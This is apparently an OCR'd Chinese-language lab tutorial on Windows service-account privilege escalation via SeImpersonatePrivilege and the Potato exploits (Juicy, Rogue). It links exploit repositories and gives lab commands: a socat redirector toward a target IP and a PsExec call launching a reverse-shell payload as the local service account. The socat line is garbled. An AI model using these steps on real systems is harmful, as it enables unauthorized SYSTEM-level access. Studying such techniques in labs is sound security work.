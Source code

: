 可以为服务帐户授予特权，但是无法直接登录。

在服务中发现问题帐户，使其更易于升级权限。

Rotten Potato
-------------

服务帐户可以拦截系统票证并使用它模拟系统用户

因为服务帐户通常具有`SeImpersonatePrivilege`特权已启用。

SeImpersonate / SeAssignPrimaryToken
------------------------------------

服务帐户通常配置这两个特权。

它们允许帐户模拟其他用户（包括系统用户）。

具有这些权限的任何用户都可以运行令牌

Juicy Potato(烂土豆)
-----------------

<https://github.com/ohpe/juicy-potato>

这里就不细写了 用的太多了

Rogue Potato
------------

GitHub: <https://github.com/antonioCoco/RoguePotato>

Blog: <https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato>

Compiled Exploit: <https://github.com/antonioCoco/RoguePotato/releases>

### 实操

#### 1.复制PSExec64.exe和RoguePotato.exe到Windows上

#### 2. 在Kali上设置socat重定向器，进行端口转发

```php
sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.175.228:9999192.168.175.228：是靶机的IP
```

#### 3.kali开启监听

#### 4. 使用管理员命令提示，使用 PSExec64.exe 触发作为本地服务帐户运行的反向外壳：

```php
C:\PrivEsc\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\Users\user\Desktop\a002.exe
```

#### 5. kali开启另一个监听

### 6.现在运行RoguePotato.exe漏洞触发进行反弹shell
